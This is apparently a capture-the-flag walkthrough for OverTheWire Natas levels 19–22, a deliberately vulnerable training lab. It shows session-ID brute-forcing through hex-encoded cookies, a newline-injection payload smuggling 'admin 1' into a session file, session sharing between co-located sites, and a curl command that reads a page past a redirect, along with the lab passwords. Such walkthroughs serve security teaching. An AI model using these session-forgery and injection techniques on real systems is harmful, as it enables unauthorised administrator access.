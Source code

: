 3534372d
3338392d
3439332d
3436322d
3434302d
3134302d
3539392d
3530362d
37352d		"75-"

The second half of the cookie is the username in hex. The first half ranges from "01-" to "640-" (assuming ranges are exactly the same as before). Password appears to do nothing to change the session id

Got it at:
381-admin
3338312d61646d696e

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

## 20

Session data is stored in a file with one line per key pair, and a space between the key and value. We can use `%0A` to insert a newline and put `admin 1` on the next line.

Load:

http://natas20.natas.labs.overthewire.org/index.php?debug&name=derp%0Aadmin%201

and then on the next page load, we will be admin.

IFekPyrQXftziDEsUr3x21sYuahypdgJ

## 21

The two sites being colocated means they can share sessions. The experimenter site sets any request variables in the session, so we can simply include a value for admin:

http://natas21-experimenter.natas.labs.overthewire.org/?debug&submit&admin=1

Now use this session id cookie on the other site.

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

## 22

The password will be revealed if we simply include a `revelio` GET variable. If this is set however, we'll be redirected away using a header `Location` value. Since the page will contain the password, we can just curl the page content to avoid the redirect:

curl 'http://natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ@natas22.natas.labs.overthewire.org/index.php?revelio'

D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

## 23
